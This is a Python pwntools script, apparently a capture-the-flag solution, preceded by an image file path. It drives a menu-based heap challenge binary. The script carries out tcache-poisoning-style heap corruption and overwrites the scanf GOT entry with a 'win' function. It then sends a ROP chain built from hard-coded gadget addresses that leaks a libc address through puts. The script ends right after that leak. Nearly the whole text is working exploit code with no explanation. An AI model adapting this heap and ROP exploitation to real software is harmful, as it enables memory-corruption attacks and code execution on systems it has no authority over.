 ```python
def raw_alloc(data, idx):
        r.sendlineafter('> ', '1')
        r.sendafter(': ', data)
        r.sendlineafter(': ', str(idx))

def a(data, idx, size=-1):
        r.sendlineafter('> ', '2')
        if size == -1:
                r.sendlineafter(': ', str(len(data)))
        else:
                r.sendlineafter(': ', str(size))
        r.sendlineafter(': ', str(idx))
        r.sendlineafter(': ', data)

def e(idx, data):
        r.sendlineafter('> ', '3')
        r.sendlineafter(': ', str(idx))
        r.sendlineafter(': ', data)
        
def d(idx):
        r.sendlineafter('> ', '4')
        r.sendlineafter(': ', str(idx))

raw_alloc('A'*0x17, 0)
# id: 'A'*7
raw_alloc('a'*0x17, 1)
d(1)

# double free like tcache poisoning
e(0, 'B'*0x17)
# new id: 'B'*7
d(1)

# point manage area
a(flat(0x00000beef0000010, 0xdead0008008-0x10), 2)

# fill mcache
a('D'*8, 3)

# overwrite bottom, top pointer
a(flat(0x4041c0, elf.got.__isoc99_scanf-0x10), 4)

# destory got with calling top_chunk_alloc 
# overwrite scanf -> win
a(flat(elf.sym.win), 5, 0x30)

# trivial part
rdi = 0x00401e8b
rbp = 0x004011f9
leave = 0x004012f7
csu_load = 0x401e82
csu_exec = 0x401e68

payload = ''
payload += 'A'*0x48
payload += flat(rdi, elf.got.puts, elf.plt.puts, csu_load)
payload += flat(0, 1, 0, 0xbeef0000000+8, 0x1000, elf.got.read, csu_exec, 0xdeadbeef)
payload += flat(1,2,3,4,5,6)
payload += flat(rbp, 0xbeef0000000, leave)
payload = payload.ljust(0x1000, '\x00')

r.sendafter(';)\n', payload)
leak = u64(r.recvuntil('\n', True).ljust(8, '\x00'))
```